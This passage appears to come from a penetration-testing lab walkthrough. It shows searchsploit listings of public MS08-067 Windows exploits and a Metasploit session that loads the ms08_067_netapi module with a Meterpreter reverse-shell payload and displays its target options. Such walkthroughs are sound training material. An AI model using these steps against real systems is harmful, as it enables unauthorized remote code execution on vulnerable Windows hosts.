```bash
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)                                                      | windows/remote/40279.py
Microsoft Windows Server - Code Execution (MS08-067)                                                                       | windows/remote/7104.c
Microsoft Windows Server - Code Execution (PoC) (MS08-067)                                                                 | windows/dos/6824.txt
Microsoft Windows Server - Service Relative Path Stack Corruption (MS08-067) (Metasploit)                                  | windows/remote/16362.rb
Microsoft Windows Server - Universal Code Execution (MS08-067)                                                             | windows/remote/6841.txt
Microsoft Windows Server 2000/2003 - Code Execution (MS08-067)                                                             | windows/remote/7132.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Paper Title                                                                                                               |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
How Conficker makes use of MS08-067                                                                                        | docs/english/12934-how-conficker
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------

```
Many options are available, so lets run `msfconsole` to get Metasploit up and running. After that, we can again search `MS08-067` then type `use 0` to load the available exploit. We then type `options` to reveal the various configuration settings.

```bash
msf6 > search ms08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


```